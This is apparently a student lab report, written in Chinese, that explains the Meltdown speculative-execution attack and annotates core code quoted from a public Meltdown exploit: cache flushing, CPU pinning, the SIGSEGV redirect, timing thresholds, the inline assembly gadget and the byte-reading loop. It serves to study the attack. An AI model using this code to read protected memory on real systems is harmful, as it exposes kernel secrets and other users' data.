


# 实验报告

## 程序原理

meltdown 攻击原理： 

1. 缓存机制(cache)
2. 预测执行(speculative execution)
3. 旁路攻击(side-channel attack)


## 攻击步骤

**概念代码**（引用自论文）：


```
raise_exception();
access(probe_data[data*4096]);
```


**准备工作**：

1. 构建一个数组probe_data 作为检查时延的工具 并使该数组初始时在内存中而不在cache中

   probe_data大小:256 * 4kB(page大小）。
   
   256含义为：总共为256个字符。
   
   * 4KB的目的为：防止在访问的时候将相邻数据替换到缓存。
     具体解释：假设A,B在内存中相邻，在同一page中；则在probe阶段，访问A的时候，会把整个A的page调入缓存；再访问B的时候，因为B已经在缓存中，
     所以B的访问时间就是cache访问时间，无法和目标数据区分。因此，必须让256个 “字符”分得足够开，每个字符独占一个页面  

2. 注册一个SIGSEGV信号处理的程序 使得程序崩溃时不会被kill而是转入目标位置继续执行
3. 将线程绑定到某个cpu核 使得attacker能够通过寄存器接触被泄露的信息
4. 提前测好访问物理内存和访问cache的时间，作为判断的标准

**执行过程**：
（汇编代码引用自论文）
```
1 ; rcx = kernel address 
2 ; rbx = probe array 
3 retry: 
4 mov al, byte [rcx] 
5 shl rax, 0xc 
6 jz retry 
7 mov rbx, qword [rbx + rax]
```
1. 首先，line 4 的mov指令打算进行非法访问，即打算将目标地址rcx的内容存入al(rax寄存器）中
2. mov指令触发段错误，系统释放SIGSEGV信号，被我们此前注册的SIGSEGV信号处理程序捕获。可以暂时简单认为（后面会具体分析），程序跳到line 5继续执行
3. 由于CPU的预测执行，此时的rax中已经存放了victim data，并且若无其事地将victim data进行了shl操作，转换成了后面访问probe_data数组的地址
4. 回顾：目前rax中存放了victim data，rax将作为地址来访问probe_data数组(比如：victim data的ASCII码为'a',则shl后rax指向probe_data的第'a'个page)
5. 不妨同步骤4，设victim data为'a'。访问probe_data [rax],因此probe_data中第'a'个page因访问被调入cache。
6. 由于probe_data数组原来在物理内存中，因此目前仅有第'a'个page在cache中
7. 遍历probe_data数组,记录访问每个page所用的时间。在访问别的ASCII码代表的 page时，需要访问物理内存；唯独在访问'a'代表的page时，仅需要访问cache。
8. 比较时间。由于访问cache的时间远小于访问page的时间，因此attacker知道了page'a'是被步骤5访问过的page，换言之，rax中装的victim data是'a'。至此，attacker获取了一个字节的秘密信息'a'。
9. 重复上述过程，理论上可以访问任何被禁区域


**代码分析**：
（代码引用自github: pabodin/meltdown-exploit)

1. 准备工作
 ```
 static char target_array[VARIANTS_READ * TARGET_SIZE];

void clflush_target(void)

{

	int i;


	for (i = 0; i < VARIANTS_READ; i++)

		_mm_clflush(&target_array[i * TARGET_SIZE]);

}

```

上述代码构建了数组probe_data,并通过mm_clflush将其清出cache

```
tatic void pin_cpu0()

{

	cpu_set_t mask;


	/* PIN to CPU0 */

	CPU_ZERO(&mask);

	CPU_SET(0, &mask);

	sched_setaffinity(0, sizeof(cpu_set_t), &mask);

}

```

上述代码将线程和CPU绑定，从而保证rax的数据可以被获取

 ```
  
  void sigsegv(int sig, siginfo_t *siginfo, void *context)

{

	ucontext_t *ucontext = context;


#ifdef __x86_64__

	ucontext->uc_mcontext.gregs[REG_RIP] = (unsigned long)stopspeculate;

#else

	ucontext->uc_mcontext.gregs[REG_EIP] = (unsigned long)stopspeculate;

#endif

	return;

}

```
上述代码注册了处理SIGSEGV信号的程序，使得段错误出现后转到stospeculate处（在asm代码的末尾）继续执行

```
set_cache_hit_threshold(void)

{

	long cached, uncached, i;


	if (0) {

		cache_hit_threshold = 80;

		return;

	}


	for (cached = 0, i = 0; i < ESTIMATE_CYCLES; i++)

		cached += get_access_time(target_array);


	for (cached = 0, i = 0; i < ESTIMATE_CYCLES; i++)

		cached += get_access_time(target_array);


	for (uncached = 0, i = 0; i < ESTIMATE_CYCLES; i++) {

		_mm_clflush(target_array);

		uncached += get_access_time(target_array);

	}


	cached /= ESTIMATE_CYCLES;

	uncached /= ESTIMATE_CYCLES;


	cache_hit_threshold = mysqrt(cached * uncached);


	printf("cached = %ld, uncached = %ld, threshold %d\n",

	       cached, uncached, cache_hit_threshold);

}
```

上述代码测试了访问cache和内存的时间，作为判断的标准。通过两次访问同一数据，导致第二次数据在cache中，从而测出cache的访问时间；通过将数据清出cache再访问，测出内存的访问时间。多次测量求平均值

2. 执行（窃取）部分

```
asm volatile (

		"1:\n\t"


		".rept 300\n\t"

		"add $0x141, %%rax\n\t"

		".endr\n\t"


		"movzx (%[addr]), %%eax\n\t"

		"shl $12, %%rax\n\t"

		"jz 1b\n\t"

		"movzx (%[target], %%rax, 1), %%rbx\n"


		"stopspeculate: \n\t"

		"nop\n\t"

		:

		: [target] "r" (target_array),

		  [addr] "r" (addr)

		: "rax", "rbx"

	);
  
  ```
  
  上述代码对应论文的汇编部分。通过预测执行的漏洞，将victim data泄露给rax
  


```
int readbyte(int fd, unsigned long addr)

{

	int i, ret = 0, max = -1, maxi = -1;

	static char buf[256];


	memset(hist, 0, sizeof(hist));


	for (i = 0; i < CYCLES; i++) {

		ret = pread(fd, buf, sizeof(buf), 0);

		if (ret < 0) {

			perror("pread");

			break;

		}


		clflush_target();


		_mm_mfence();


		speculate(addr);

		check();

	}

```
上述代码即为核心代码的封装。将窃取victim data的过程整合在一起。speculate（）即asm部分；check（）就是遍历数组探测时间部分，在此处省略
main函数无更多重要内容，此处省略。


## 代码调试

1. IAIK/meltdown 代码调试


上图为dump memory的部分截图

2. pabodin/meltdown-exploit


上图为meltdown-exploit代码的测试结果。可以看到，每一行尾部输出一个字符，从而读出了禁区的内容
